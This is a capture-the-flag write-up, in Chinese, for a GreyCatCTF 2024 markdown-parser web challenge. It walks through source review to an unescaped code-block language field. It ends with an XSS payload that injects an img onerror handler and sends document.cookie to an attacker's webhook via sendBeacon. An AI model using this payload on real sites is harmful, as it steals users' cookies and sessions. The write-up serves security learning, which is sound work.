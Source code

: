 # Web/Markdown Parser

## DESC

![](/articles/00_CTFs/00_Online_Challenge/01_GreyCatCTF_2024/00_WEB_Markdown_Parser/20240421004117.png)

I built this simple markdown parser. Please give me some feedback (in markdown), I promise to read them all. Current features include: bold, italics, code blocks with syntax highlighting!

::: details 中文翻譯
我建立了這個簡單的 Markdown 解析器。請給我一些回饋（以 Markdown 格式），我保證會仔細閱讀所有的回饋。目前的功能包括：粗體、斜體以及帶有語法突顯的程式碼塊！
:::

> Author: ocean

challenge attach link:

-   challenge website url: [http://challs.nusgreyhats.org:33335/](http://challs.nusgreyhats.org:33335/)
-   attach files: [https://drive.google.com/uc?export=download&id=1o-co7HIGIkWffnsPMenQD-bEwyZeJaHv](https://drive.google.com/uc?export=download&id=1o-co7HIGIkWffnsPMenQD-bEwyZeJaHv)

## Background Knowledges

-   JS 閱讀及撰寫能力
-   對於 HTML 有基本的建構能力
-   能理解 HTML 的 property 使用
-   XSS 的偵查與攻擊能力

## Solve

1.  先不看原始碼進行偵查，發現他有三個部分：
    1. 編輯 markdown 頁面 （path: `/`)
    2. 觀看 markdown 的結果 (path: `/parse-markdown`，會帶著 query `markdown`)
    3. 進行 Feedback (path: `/feedback`，一個 API 點)
2.  觀察了一下 `/parse-markdown` 後面的 query `markdown` ，他是一串 base64，為你輸入進的文本內容。
3.  根據一般 web ctf 的類型，看到有 feedback 這種會回報的頁面，通常都是 `XSS`。
4.  打開原始碼進行確認。
    1. 基本上看到 `index.js` 中的內容都差不多。
    2. 看到 `admin.js` 會注意到他使用 `puppeteer` 套件，在第 24 至 30 行會注意到他去設定了 `Cookie`。他還很好心的設定 `http-only=false` ，不做 XSS 真的對不起他。
       ::: code-group
        ```js:line-numbers=24 {3,5} [admin.js]
        await page.setCookie({
            name: "flag",
            value: process.env.FLAG || "flag{fake_flag}",
            domain: cookieDomain,
            httpOnly: false,
            samesite: "strict",
        });
        ```
        :::
    3. 看到 `markdown.js` ，這是他設定如何將 markdown 渲染到 html 的 function lib。初步看下來，他在第 40 至 47 行有一個 `escapeHtml` 的函式，這個函式將一些常見的 xss 攻擊起手式 ban 掉了...
       ::: code-group
        ```js:line-numbers=40 [markdown.js]
        function escapeHtml(text) {
            return text
                .replace(/&/g, '&amp;')
                .replace(/</g, '&lt;')
                .replace(/>/g, '&gt;')
                .replace(/"/g, '&quot;')
                .replace(/'/g, '&#039;');
        }
        ```
        :::
        這可以在上面應證這點，只要牽涉到內容的產生，都有 `escapeHtml` 的蹤影。
5.  詳細觀看了原始碼，看起來沒有什麼注入點，甚至是想要利用 `markdown` 渲染一些 property 進去都不行。不過卻有一個小小缺口，就是在第 15 至 18 行要渲染 code block 上是用什麼語言的地方，他使用了「字串相接」這個方法來處理，而且也沒有用到 `escapeHtml` 函式來處理輸入的文字，因此就找到了 xss 的注入點。
    ::: code-group

    ````js:line-numbers=1 {18} [markdown.js]
    function parseMarkdown(markdownText) {
        const lines = markdownText.split('\n');
        let htmlOutput = "";
        let inCodeBlock = false;

        lines.forEach(line => {
            if (inCodeBlock) {
                if (line.startsWith('```')) {
                    inCodeBlock = false;
                    htmlOutput += '</code></pre>';
                } else {
                    htmlOutput += escapeHtml(line) + '\n';
                }
            } else {
                if (line.startsWith('```')) { // [!code focus:4]
                    language = line.substring(3).trim();
                    inCodeBlock = true;
                    htmlOutput += '<pre><code class="language-' + language + '">';
                } else {
                    line = escapeHtml(line);
                    line = line.replace(/`(.*?)`/g, '<code>$1</code>');
                    line = line.replace(/^(######\s)(.*)/, '<h6>$2</h6>');
                    line = line.replace(/^(#####\s)(.*)/, '<h5>$2</h5>');
                    line = line.replace(/^(####\s)(.*)/, '<h4>$2</h4>');
                    line = line.replace(/^(###\s)(.*)/, '<h3>$2</h3>');
                    line = line.replace(/^(##\s)(.*)/, '<h2>$2</h2>');
                    line = line.replace(/^(#\s)(.*)/, '<h1>$2</h1>');
                    line = line.replace(/\*\*(.*?)\*\*/g, '<strong>$1</strong>');
                    line = line.replace(/__(.*?)__/g, '<strong>$1</strong>');
                    line = line.replace(/\*(.*?)\*/g, '<em>$1</em>');
                    line = line.replace(/_(.*?)_/g, '<em>$1</em>');
                    htmlOutput += line;
                }
            }
        });

        return htmlOutput;
    }
    ````

    :::

6.  既然找到了注入點，就可以把常規的 xss 注入放進去。

    這邊有三種方式：

    第一種是使用它內建的編寫，寫好就送出後就可以點選 `Feedback` 按鈕；

    第二種是你寫好 markdown 轉成 base64 後丟進 `/parse-markdown` 的 query `markdown` 中，再去按 `Feedback` 按鈕；

    第三種就是直接丟到 `/feedback` 那個 api。

    這邊就看個人興趣了選擇了。

    ::: tip
    不過這邊我為的省事，能用原生的東西就用原生的了...反正也不是強迫一定要怎樣做 :smile: 。
    :::
    ::: code-group

    ````markdown [evil payload]
    ```js"> <img src=x onerror="navigator.sendBeacon(<your webhook url>, document.cookie)
    happy xss
    ```
    ````

    :::

    ::: info
    為什麼我在 `img` 標籤後面不加入 `"` 以及用作關閉的 `>` ？

    是因為好巧不巧，在 `markdown.js` 的第 18 行字串連接都幫你弄好了，也就不要浪費了...。
    :::
